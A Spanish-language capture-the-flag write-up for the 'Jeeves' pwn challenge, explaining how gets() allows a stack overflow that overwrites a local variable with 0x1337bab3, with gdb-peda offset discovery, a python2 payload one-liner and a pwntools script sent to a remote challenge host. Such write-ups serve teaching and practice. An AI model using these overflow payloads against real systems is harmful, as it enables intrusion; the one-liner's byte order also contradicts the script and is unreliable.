 ```yaml
---
title: Jeeves Writeup
date: 2024-07-09 18:52:10 +/-TTTT
categories: [Pwn]
tags: [Pwn, ensamblador, facil]     # TAG names should always be lowercase
math: true

header-includes:
  - \usepackage[ruled,vlined,linesnumbered]{algorithm2e}

image:
  path: /assets/img/Posts/Jeeves/jeeves.JPG
  alt: PWN
---
```


El desafio jeeves es un desafio de pwn en el cual debemos hacer un buffer overflow a una maquina linux remota. Analizado estaticamente el binario podemos observar lo siguiente:

```shell
$ set-disassembly flavor intel
$ disassembly main
```

<div style="text-align:center">
    <img src="/assets/img/Posts/Jeeves/disasmain.JPG" alt="" >
</div>

Como se observa existe una instruccion que guarda en la direccion rbp-0x4 el DWORD (32 bits) 0xdeadc0d3 mas adelante podemos ver que compara el valor de la direccion con el DWORD 0x1337bab3 y si no son iguales nos envia a la salida del programa, pero si son iguales nos entrega la flag.  Ingresando una instruccion lo suficientemente grande podemos sobreescribir el registro RBP y RIP del stack.

Generando una cadena de texto irrepetible con la herramienta pattern.txt podemos averiguar cual es el offset que necesitamos para sobreescribir el primer valor de la pila. En mi caso tengo la herramienta gdb-peda por lo que debo ejecutar:

```bash
gdb-peda$ pattern_create 200
```

Tenemos el siguiente output:

```
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
```

Lo copiamos en un archivo de salida pattern .txt para usarlo como entrada del programa:

```bash
gdb-peda$ r < pattern.txt
```

Observamos que el registro rbp fue sobreescrito ya que gets() es una funcion vulnerable a buffers overflows:

<div style="text-align:center">
    <img src="/assets/img/Posts/Jeeves/rbpoverwrite.JPG" alt="" >
</div>

Ahora podemos usar el valor para ver cuanta es la cantidad de data que necesitamos para sobreescribir el RBP

```shell
gdb-peda$ pattern_offset AAdAA3AA 200
AAdAA3AA found at offset: 64
```

Por lo tanto debemos sobreescribir el RBP desde la posicion 60 (64 -0x4) ya que el stack se sobreescribe desde las posiciones con menor valor numerico a las que tienen mayor valor numerico. Y el programa va a verificar que la data en la direccion de memoria RBP-0x4 sea 0x1337bab3.


```bash
python2 -c "print '\x90'*60 + '\x13\x37\xba\xb3\xfc\x43\xc7' + ''" > in.bin
```

Podemos probar que funcione en el entorno local agregando el archivo flag.txt y escribiendo cualquier cosa en el por lo que el programa deberia leerlo y devolver lo que hemos escrito en el.

<div style="text-align:center">
    <img src="/assets/img/Posts/Jeeves/localtest.JPG" alt="" >
</div>

Si queremos automatizarlo para explotar la vulnerabilidad en un servidor remoto como lo pide el desfio podemos usar el siguinte script de pwntools.

```python
from pwn import *

HOST, PORT = "83.136.252.57", 30295
request = remote(HOST, PORT)
request.send(b'\x90' * 60 + b'\xb3\xba\x37\x13' + b'\n')
flag = request.recv()
print(flag)
request.close()
```

Los caracteres se ponen al reves porque los valores al ser cargados en el stack se cargan en orden inverso por lo que quedaran en el orden correcto al ser agregados por el programa.
